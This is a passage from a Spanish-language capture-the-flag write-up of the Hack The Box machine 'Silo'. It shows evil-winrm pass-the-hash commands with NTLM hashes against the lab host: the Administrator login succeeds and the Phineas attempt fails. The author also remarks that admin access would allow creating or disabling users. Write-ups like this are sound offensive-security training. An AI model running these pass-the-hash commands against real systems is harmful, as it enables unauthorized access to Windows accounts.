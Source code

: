 Pero no :(

### PassTheHash - evil-winrm

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm).

Si recordamos, en nuestro escaneo vimos el puerto **5986**, el cual hace referencia al servicio de Windows [WinRM](https://docs.microsoft.com/en-us/windows/win32/winrm/installation-and-configuration-for-windows-remote-management). Entonces [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) nos ayuda a explotar este servicio para obtener una PowerShell ya sea con credenciales o como en nuestro caso, con un hash:

```bash
❭ evil-winrm -i 10.10.10.82 -u Administrator -H 9e730375b7cbcebf74ae46481e07b0c7
```

![131bash_passhash_evilwinrm_admin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131bash_passhash_evilwinrm_admin.png)

Perfecto otra vez :) Volvamos a intentar con **Phineas** a veeeer:

```bash
❭ evil-winrm -i 10.10.10.82 -u Phineas -H 8eacdd67b77749e65d3b3d5c110b0969

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```

Pero no, error de nuevo :(

...

Igual siendo administradores (y no siéndolo) podemos ver el contenido de **Phineas**.

Acá podríamos crearnos usuarios, mover registros, deshabilitar otros, jugar con privilegios, etc, jugar mucho. Pero por ahora, hemos terminado :D Solo nos queda ver las flags.

![131flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131flags.png)

...

Linda máquina, la parte forense me gusto mucho, pensar en el peligro de que se filtre un volcado de memoria. Me gusto mucho esa parte.

Y bueno, nos leeremos en otra ocasión, claro que si! Bendiciones y como siempreeeeeeeeeeeeeeeeeeeeeeee, a, seguir, rompiendo, todoooooooo.